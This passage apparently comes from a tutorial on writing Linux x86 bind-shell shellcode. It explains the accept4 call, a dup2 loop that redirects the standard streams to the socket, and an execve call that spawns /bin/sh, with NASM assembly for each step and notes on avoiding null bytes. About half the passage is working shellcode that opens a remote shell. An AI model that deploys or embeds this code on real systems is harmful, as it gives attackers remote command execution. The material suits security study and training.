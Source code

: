According to the man page for `accept4`:

> If flags is 0, then accept4() is the same as accept()

With this in mind, the appropriate register can be XORd to pass the value `0`. The return value of `accept4` is the file descriptor which will be used to send and receive data over the network, so the return value needs to be moved into `$esi` for later use:

```nasm
; call accept4(sockfd, *addr, *addrlen, flags)
xor   eax, eax
mov   ax, 0x16c   ; $eax: 0x16c / 364
mov   ebx, edi    ; $ebx: sockfd
xor   ecx, ecx    ; $ecx: NULL
xor   edx, edx    ; $edx: NULL
xor   esi, esi    ; $esi: 0
int   0x80
mov   esi, eax    ; $esi: connection file descriptor
```

After accepting the connection, `dup2` is called to ensure STDIN, STDOUT and STDERR and the newly created file descriptor are all equal. Rather than repeat the same code three times, the `loop` instruction is used to reduce the amount of shellcode needed. The file descriptors for STDIN, STDOUT and STDERR are 0, 1 and 2. As `loop` will stop jumping to the specified label (`dup`) once it reaches zero, `0x3` is moved into the `cl` register to ensure a total of 3 iterations.

Each time the call is made to `dup2`, the value of `ecx` is decremented, to ensure a valid file descriptor is being used, and then re-incremented to ensure the loop continues as expected:

```nasm
; call dup2 to redirect STDIN, STDOUT and STDERR
mov   cl, 0x3
dup:
xor   eax, eax
mov   al, 0x3f
mov   ebx, esi    ; $ebx: connection file descriptor
dec   ecx
int   0x80
inc   ecx
loop  dup
```

Finally, with the connection established and the file descriptors setup, `execve` can be used to spawn a shell. As `/bin/sh` is only 7 bytes, if it was to be pushed on to the stack it would result in a null byte also being pushed. To avoid this, an extra slash is added to the path, as this is interpretted the same, but pads the value out to 8 bytes.

As the parameters are pushed in reverse order onto the stack, `$eax` is pushed onto the stack after being XORd before `/bin//sh` to ensure the string is null terminated:

```nasm
; spawn /bin/sh using execve
; $ecx and $edx are 0 at this point
xor   eax, eax
push  eax
push  0x68732f2f
push  0x6e69622f
mov   ebx, esp    ; [$ebx]: null terminated /bin//sh
mov   al, 0x0b
int   0x80
```
